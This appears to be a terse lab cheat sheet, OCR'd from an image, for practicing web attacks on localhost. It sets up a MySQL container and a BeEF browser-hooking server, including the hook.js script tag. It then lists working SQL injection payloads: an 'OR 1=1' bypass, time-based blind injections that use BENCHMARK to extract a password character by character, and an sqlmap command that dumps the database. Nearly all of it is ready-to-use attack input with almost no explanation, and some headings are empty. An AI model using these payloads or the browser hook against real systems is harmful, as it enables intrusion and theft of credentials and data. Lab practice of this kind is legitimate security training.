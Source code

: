     docker run -p 3306:3306 -e MYSQL_ROOT_PASSWORD=root -e MYSQL_DATABASE=quicky mysql
    docker run -p 3000:3000 -d janes/beef
    http://localhost:3000/ui/panel
    http://localhost:3000/hook.js
   
   <script src="http://localhost:3000/hook.js"></script>
   
   
   SELECT * FROM user where username = 'patrick';
   
   blabla' OR 1=1; -- commentaire
   SELECT * FROM user where username = 'blabla' OR 1=1; -- commentaire
   
   Time Based Explication
   blabla' AND BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')); -- commentaire
   SELECT * FROM user where username = 'blabla' AND BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')); -- commentaire
   
   Time Based
   blabla' UNION SELECT IF(SUBSTRING(password,1,1) = CHAR(98),BENCHMARK(5000000,ENCODE('xxx','xxxxxxxx')),null) as id, email, password, username  FROM user WHERE username = 'patrick'; -- commentaire
   SELECT * FROM user where username = 'blabla' UNION SELECT IF(SUBSTRING(password,1,1) = CHAR(98),BENCHMARK(5000000,ENCODE('xxx','xxxxxxxx')),null) as id, email, password, username FROM user WHERE username = 'patrick';
   
   Stacked Querry
   
   Union Select
   
   sqlmap -u 'http://localhost:8081/sqli/blind?input=patrick' --dump
